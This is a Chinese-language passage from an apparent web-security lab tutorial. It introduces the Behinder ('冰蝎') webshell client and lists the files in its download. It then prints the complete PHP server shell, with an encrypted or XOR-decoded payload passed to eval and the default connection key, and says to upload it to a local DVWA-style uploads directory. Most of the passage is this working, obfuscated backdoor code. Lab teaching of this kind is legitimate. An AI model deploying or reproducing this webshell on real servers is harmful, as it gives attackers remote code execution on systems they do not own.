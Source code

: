 由于原版"菜刀"只支持 Windows，因此我这边选用支持跨平台的"冰蝎"作为演示，可进入 [Github](https://github.com/rebeyond/Behinder/releases) 对"冰蝎"进行下载。

下载解压后的目录：

```java
$ tree
.
├── 更新日志.txt
├── Behinder_v3.0_Beta6_linux.jar
├── data.db
└── server
    ├── shell.asp
    ├── shell.aspx
    ├── shell.jsp
    ├── shell.jspx.jsp
    └── shell.php
```

server 目录就是用来上传服务端的小马，我们选择上传 shell.php，默认使用连接密码 rebeyond，你可根据需要自行修改，然后用密码 32 位 md5 哈希值替换 key 变量即可。

shell.php 代码如下：

```php
<?php
@error_reporting(0);
session_start();
    $key="e45e329feb5d925b"; //该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond
	$_SESSION['k']=$key;
	$post=file_get_contents("php://input");  // 读取上传文件内容
	if(!extension_loaded('openssl'))
	{
		$t="base64_"."decode";
		$post=$t($post."");   // 如果没有openssl扩展就调用base64_decode
		
		for($i=0;$i<strlen($post);$i++) {
    			 $post[$i] = $post[$i]^$key[$i+1&15]; 
    			}
	}
	else
	{
        // 如果有openssl扩展就采用AES128位解密，因为冰蝎是加密传输的
		$post=openssl_decrypt($post, "AES128", $key);
	}
    $arr=explode('|',$post);
    $func=$arr[0];
    $params=$arr[1];
	class C{public function __invoke($p) {eval($p."");}}
    @call_user_func(new C(),$params);
?>
```

上传成功后得到地址：

```java
http://127.0.0.1/hackable/uploads/shell.php
```
